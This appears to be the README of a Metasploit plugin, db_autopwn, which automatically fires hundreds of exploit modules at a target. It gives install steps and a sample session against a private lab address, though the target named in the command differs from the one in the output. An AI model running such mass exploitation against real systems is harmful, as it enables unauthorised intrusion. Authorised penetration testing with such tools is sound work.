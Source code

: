 # metasploit-db_autopwn

metasploit plugin for easy exploit & vulnerability attack.<br>
But, the db_autopwn command is removed from official distribution.<br>

## Install
1. Clone this repo or download "db_autopwn.rb" file<br>
- clone this repository

```
#> git clone https://github.com/hahwul/metasploit-autopwn
```

<br>
or <br>
<br>

- download db_autopwn.rb file in metasploit plugin directory

```
#> wget https://raw.githubusercontent.com/hahwul/metasploit-autopwn/master/db_autopwn.rb
```

2. Move dB_autopwn.rb file into metasploit plugin directory

```
#> cd metasploit-autopwn
```
```
#> cp db_autopwn.rb /usr/share/metasploit-framework/plugins
```
or (install path)
```
#> cp db_autopwn.rb /opt/metasploit-framework/plugins
```

## Usage

    #> msfconsole
    MSF > load db_autopwn
    [*] Successfully loaded plugin: db_autopwn
    
    MSF > db_autopwn -p -R great -e -q 192.168.56.101 
    [-] The db_autopwn command is DEPRECATED
    [-] See http://r-7.co/xY65Zr instead
    [*] (1/1301 [0 sessions]): Launching exploit/bsdi/softcart/mercantec_softcart against 192.168.56.44:80...
    [*] (2/1301 [0 sessions]): Launching exploit/freebsd/http/watchguard_cmd_exec against 192.168.56.44:80...
    [*] (3/1301 [0 sessions]): Launching exploit/linux/antivirus/escan_password_exec against 192.168.56.44:80...
    [*] (4/1301 [0 sessions]): Launching exploit/linux/http/accellion_fta_getstatus_oauth against 192.168.56.44:80...
    [*] (5/1301 [0 sessions]): Launching exploit/linux/http/advantech_switch_bash_env_exec against 192.168.56.44:80...



